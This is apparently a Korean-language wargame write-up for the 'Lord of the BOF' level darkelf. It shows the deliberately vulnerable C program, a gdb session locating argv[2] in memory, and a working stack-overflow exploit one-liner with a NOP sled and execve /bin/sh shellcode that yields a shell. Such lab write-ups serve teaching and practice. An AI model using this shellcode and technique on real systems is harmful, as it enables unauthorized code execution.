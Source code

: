 # wolfman -> darkelf

``` C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

환경변수 이용 금지, argv[1]의 48번째는 \xbf, argv[1]의 길이가 48 초과 금지라는 조건이 있다.
즉, argv[1]을 이용해 payload를 작성할 수 없다는 뜻이다.

```
Breakpoint 1 at 0x80485f5
(gdb) r `python -c 'print "\xbf"*48+" "+"A"*100'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/wolfman/darkelf1 `python -c 'print "\xbf"*48+" "+"A"*100'`

Breakpoint 1, 0x80485f5 in main ()
```
strcpy()함수가 끝나는 부분에 breakpoint를 걸고 argv[1]에 \xbf를 채워넣고, argv[2]에 A를 채워넣었다.
argv[2]의 주소를 확인해 보면 다음과 같다.

```
0xbffffbf7:      "/home/wolfman/darkelf1"
0xbffffc0e:      '¿' <repeats 48 times>
0xbffffc3f:      'A' <repeats 100 times>
```

```
[wolfman@localhost wolfman]$ ./darkelf `python -c 'print "A"*44+"\x3f\xfc\xff\xbf"+" "+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?üÿ¿
bash$ my-pass
euid = 506
kernel crashed
```

+) 
``` C
  if(strlen(argv[1]) > 48)
  {
                printf("argument is too long!\n");
                exit(0);
  }
```
이 부분이 나타내는 의미는 argv[1] 이후에 오는 RET부분을 사용 할 수 없다는 의미인것 같다.

